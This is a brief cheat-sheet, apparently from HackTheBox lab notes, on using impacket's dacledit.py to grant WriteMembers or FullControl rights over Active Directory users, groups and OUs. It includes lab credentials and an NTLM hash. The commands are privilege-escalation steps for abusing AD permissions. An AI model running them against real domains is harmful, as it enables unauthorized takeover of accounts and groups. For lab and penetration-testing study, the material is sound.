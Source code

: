 # dacledit.py

## Overview

Python script to read and manage the Discretionary Access Control List of an object

## Usage

```shell
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

Give Full control - GenericAll acl

```shell
dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>'
```

```shell
impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip haze.htb 'haze.htb/Haze-IT-Backup$' -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```

If it is over an OU add inheritance:

```shell
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=adcs,DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'john':'password123!'
```